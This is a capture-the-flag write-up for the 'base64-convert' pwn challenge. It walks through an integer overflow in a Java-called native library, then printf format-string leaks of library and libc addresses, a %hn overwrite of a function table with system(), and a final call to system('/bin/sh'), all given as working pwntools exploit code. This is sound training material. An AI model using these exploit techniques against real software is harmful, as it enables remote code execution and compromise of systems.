


# WannaGame - base64-convert

You can download challenge here: [base64-convert.zip](base64-convert.zip)

There are 7 files in zip:
- Dockerfile
- public/
- public/Main.class
- public/libconvert.so
- public/flag.txt
- public/run.sh
- setup.sh

Download, extract and run `setup.sh` to build and run docker and we can get started!

# 1. Find bug

First, let's decompile the java file `Main.class` with IntelliJ IDEA to know how the program work:

```java
import java.io.IOException;
import java.io.PrintStream;
import java.util.Arrays;
import java.util.Scanner;

public class Main {
    public Main() {
    }

    private static native void convert(byte[] var0);

    public static void main(String[] var0) throws IOException {
        Scanner var1 = new Scanner(System.in);
        byte[] var2 = new byte[69632];
        int var3 = 0;

        while(true) {
            while(true) {
                System.out.println("Welcome to base64 converter!");
                System.out.println("Choose what you want?");
                System.out.println("1. Encode string");
                System.out.println("2. Decode string");
                System.out.println("3. Print string");
                System.out.println("4. Append string");
                System.out.println("5. Clear string");
                System.out.println("6. Exit");
                int var4 = var1.nextInt();
                if (var4 != 1 && var4 != 2) {
                    if (var4 == 3) {
                        PrintStream var10000 = System.out;
                        String var10001 = new String(var2);
                        var10000.println("String: " + var10001);
                    } else if (var4 == 4) {
                        if (var3 < 65536) {
                            System.out.print("Input string: ");
                            var3 += System.in.read(var2, var3, 4096);
                            if (var2[var3 - 1] == 10) {
                                var2[var3 - 1] = 0;
                                --var3;
                            }
                        } else {
                            System.out.print("String too large!");
                        }
                    } else if (var4 == 5) {
                        Arrays.fill(var2, (byte)0);
                        var3 = 0;
                    } else {
                        if (var4 == 6) {
                            System.out.println("Bye!");
                            return;
                        }

                        System.out.println("Wrong option !!!");
                    }
                } else {
                    byte[] var5 = build_message(var2, var3, var4);
                    convert(var5);
                }
            }
        }
    }

    private static byte[] build_message(byte[] var0, int var1, int var2) {
        byte[] var3 = new byte[var1 + 5];
        var3[0] = (byte)(var1 >> 0 & 255);
        var3[1] = (byte)(var1 >> 8 & 255);
        var3[2] = (byte)(var1 >> 16 & 255);
        var3[3] = (byte)(var1 >> 24 & 255);
        System.arraycopy(var0, 0, var3, 4, var1);
        var3[var1 + 4] = (byte)(var2 - 1);
        return var3;
    }

    static {
        System.loadLibrary("convert");
    }
}
```

Option 1 and 2 will call function `build_message` to set the string into a structure of message:

```c
struct message
{
	unsigned int size;
	char str[size];
	char opcode;
}
```

Let's say we have a string `12345678` so the message will look like this in memory:


Then that message is passed to function `convert`, which is a C function of shared libc `libconvert.so`.

With the option 3, it just print out the string. Option 4 let us input data to string, note that we can input `0x1000` bytes in 1 time in local but when we connect to server, we have to split the input into small parts, let's say `0x400` bytes, so we will need to input 4 times of string `0x400` bytes to have `0x1000` bytes in string. Finally, to set null for all bytes in string, choose option 5.

As we known, Java manages the memory automatically so attacking Java seems impossible. Having a look around and we notice that the maximum size of string is `0x10000`. Ah no, it's actually is `0x10fff` because if we have inputted `0xffff` bytes and then we choose option 3 again, we still pass the check to append one more time. Remember this and let's decompile the file `libconvert.so` with IDA to know how the function `convert` works:



As we known that our string can have upto `0x10fff` bytes, but the variable `size` is unsigned short, hence the size when it parses is `0x0fff` --> **Integer Overflow**. When it execute `&functions + *((char *)a1 + size + 4)` with size is `0x0fff` but the actual size is `0x10fff`, it will take the opcode inside our string. Therefore we can control what function to be executed with those functions nearby variable `functions`:


With that, we can execute the function we want and we also notice that the first argument is dest, which is the begining of our string. That's all interesting stuff for this chall, just a bug is integer overflow and we can execute whatever function nearby `functions` we want such as printf, malloc, setvbuf,...

# 2. Idea

We know that first argument is under control so what about executing printf with our chosen **Format String**? With that, we can leak first is the address of libconvert because stack doesn't contains any addresses of libc. With address of libconvert, we can use format string `%s` to print out the printf@got of libconvert, which is the real libc address. Finally, we write the address of system to whatever place near `functions` and execute `system("/bin/sh")` to get shell (because first argument is in our under control).

Summary:
- Stage 1: Leak libconvert address
- Stage 2: Leak libc address
- Stage 3: Write system address
- Stage 4: Get shell

# 3. Exploit

```diff
!Remember to get the libc from docker to attack correctly!
```

### Stage 1: Leak libconvert address

First, we need to get the format for our payload. Let's start with inputing `0x103ff` bytes first (that number of bytes is enough for our attack so don't need to input full of it):

```python
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'A'*0x400)
for i in range(62):
    p.sendlineafter(b'6. Exit\n', b'4')
    p.sendafter(b'string: ', b'A'*0x400)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'B'*0x3ff)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'C'*0x400)
```

When debug, we can see the size it takes is `0x3ff`:


If we run into the calculation of `functions`, we can see that it takes the opcode is `0x41`, which is character `A`:


With rax is the array `functions` and rdx is opcode. Note that rdi is string of `A` so the idea now is to use printf with our format string is `%29$p` to leak the saved rip of this function. Let's say we have a payload like this:

```python
payload = b'%29$p\0' + p32(-22, sign=True)
```

The first byte string is string for rdi, the p32() is for opcode. Hence, we will need to change the number of bytes `C` append to program to set the correct size is `6`:

```python
payload = b'%29$p\0' + p32(-22, sign=True)               # Change here
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload.ljust(0x400, b'A'))     # Change here
for i in range(62):
    p.sendlineafter(b'6. Exit\n', b'4')
    p.sendafter(b'string: ', b'A'*0x400)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'B'*0x3ff)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'C'*(1+len(payload)-4))        # Change here
```

Our payload need to be `0x400` bytes to we add pad to payload with `ljust()`. With the last change, we want to make the size from `0xffff` into `0x10000` so we add 1 byte first, then if we input full length of payload (which is `10` bytes), but we just want first 6 bytes of payload so we subtract with 4. After that, we just need to execute option 2 (because option 2 not cause segfault) to get libconvert address leak:

```python
p.sendlineafter(b'6. Exit\n', b'2')
libconvert_leak = int(p.recvuntil(b'Welcome', drop=True), 16)
libconvert_base = libconvert_leak - 0x19fd
log.info("Libconvert base: " + hex(libconvert_base))
```


Nice! Let's move on!

### Stage 2: Leak libc address

We will use the same payload format to save our time. Let's change that payload. Now, we know that if size is lower or equal 127, our data will be put on stack and that's a good sign for us to use **Format String**. We will want to leak the libc address of printf from printf@got of libconvert. Let's get the offset for printf@got:



So we will want to use `%11s` to print the libc address of printf@got out:

```python
# Reset the string
p.sendlineafter(b'6. Exit\n', b'5')

# Append the string
payload = b'%11$s\0\0\0' + p64(libconvert_base + 0x4030) + p32(-22, sign=True)

p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload.ljust(0x400, b'A'))
for i in range(62):
    p.sendlineafter(b'6. Exit\n', b'4')
    p.sendafter(b'string: ', b'A'*0x400)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'B'*0x3ff)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'C'*(1+len(payload)-4))

# Execute convert
p.sendlineafter(b'6. Exit\n', b'2')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['printf']
log.info("Libc base: " + hex(libc.address))
```

And we get libc address leak:


Very good, let's move on!

### Stage 3: Write system address

We have the libc base address and we can get the system address easily. Now we will want to overwrite an address of array `functions` for convenient use (means just append string `/bin/sh` and choose option 1 or 2 to execute system and get shell). Let's check if the addresses of `functions` has some same bytes or not:


We can see that 2 higher bytes are the same `0x7f29`, so we just need to change first 4 bytes and that would be easy. First let's get 2 parts of system address with part1 is first 2 bytes, part2 is the next 2 bytes of address system:

```python
part1 = (libc.sym['system'] >> 0) & 0xffff
part2 = (libc.sym['system'] >> 16) & 0xffff
if part2<(part1 & 0xffff):
    part2 |= 0x10000
```

We will put the address after our format string so we will want to pad our format string up to `0x40` bytes for convenient exploit:

```python
payload = b''
payload = payload.ljust(0x40, b'P')
payload += flat(
    libconvert_base + 0x40e0,
    libconvert_base + 0x40e0+2,
    )
```

Debug until the function memcpy and run that function to get data to stack and check for the correct format string offset by couting or do a simple calculation as following:


The offset for the first address is 18. Let's finish our payload:

```python
payload = f'%{part1}c%18$hn'.encode()
payload += f'%{part2 - (part1 & 0xffff)}c%19$hn'.encode()
payload = payload.ljust(0x40, b'P')
payload += flat(
    libconvert_base + 0x40e0,
    libconvert_base + 0x40e0+2,
    )
```

And the full script for this stage is:

```python
part1 = (libc.sym['system'] >> 0) & 0xffff
part2 = (libc.sym['system'] >> 16) & 0xffff
if part2<(part1 & 0xffff):
    part2 |= 0x10000

# Reset the string
p.sendlineafter(b'6. Exit\n', b'5')

# Append the string
payload = f'%{part1}c%18$hn'.encode()
payload += f'%{part2 - (part1 & 0xffff)}c%19$hn'.encode()
payload = payload.ljust(0x40, b'P')
payload += flat(
    libconvert_base + 0x40e0,
    libconvert_base + 0x40e0+2,
    )
payload += p32(-22, sign=True)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload.ljust(0x400, b'A'))
for i in range(62):
    p.sendlineafter(b'6. Exit\n', b'4')
    p.sendafter(b'string: ', b'A'*0x400)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'B'*0x3ff)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'C'*(1+len(payload)-4))

# Execute convert
p.sendlineafter(b'6. Exit\n', b'2')
```

Executing that and we overwrite array `functions` of option 1 from `base64_encode()` into `system()`. Let's finish our exploit!

### Stage 4: Get shell

All we need is simple now, just clear the string first and append new string is `/bin/sh`:

```python
# Reset the string
p.sendlineafter(b'6. Exit\n', b'5')

# Append the string
payload = b'/bin/sh\0'
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload)
```

Finally choose option 1 to get shell:

```python
p.sendlineafter(b'6. Exit\n', b'1')
```

Full script: [solve.py](solve.py)

# 4. Get flag


Flag is `W1{phaphakhongcodon}`